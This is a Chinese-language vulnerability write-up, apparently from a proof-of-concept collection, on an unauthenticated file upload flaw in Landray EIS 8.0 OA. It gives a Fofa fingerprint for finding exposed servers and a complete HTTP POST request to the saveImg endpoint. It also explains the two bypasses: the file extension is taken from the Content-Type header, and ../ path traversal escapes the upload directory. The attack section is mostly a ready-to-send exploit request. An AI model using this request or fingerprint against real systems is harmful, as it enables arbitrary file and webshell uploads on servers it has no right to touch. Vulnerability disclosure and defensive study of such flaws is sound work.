 ```yaml
---
title: 蓝凌EIS8.0前台文件上传
---
```

# 蓝凌EIS8.0前台文件上传

## 漏洞厂商

landray蓝凌   

## 厂商官网

https://www.landray.com.cn/

## 产品

蓝凌智能OA EIS 8.0 

https://www.landray.com.cn/blue?target=zhinengoa

## Fofa语法

```
icon_hash="953405444" 
```

## POC

```
POST /eis/service/api.aspx?action=saveImg HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: ASP.NET_SessionId=jh3g1b45deo2ny55kmxl4355; Lang=zh-cn
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryZUtvHzp8FchbbUUn
Content-Length: 483
 
------WebKitFormBoundaryZUtvHzp8FchbbUUn
Content-Disposition: form-data; name="file"filename="test.jpg"
Content-Type: text/html


111
------WebKitFormBoundaryZUtvHzp8FchbbUUn--
```

文件路径`Scripts/plupload/1.txt`

漏洞分析:

`/eis/service/api.aspx`下存在一个`SvaeImg`方法。

当`action=saveimg`时，则进入

![](https://ckcsec.oss-cn-hangzhou.aliyuncs.com/img/image-20240624172207322.png)

一处简单的文件上传漏洞，取file参数的io流。后时间戳+ext变量。

这里的变量取的是`Content-Type`头的`image`/后的内容，由于`web.config`中定义了一些可以未登录访问的路径。

../跨目录绕过

访问 `/eis/service/api.aspx?action=saveImg`

![](https://ckcsec.oss-cn-hangzhou.aliyuncs.com/img/image-20240624172523693.png)
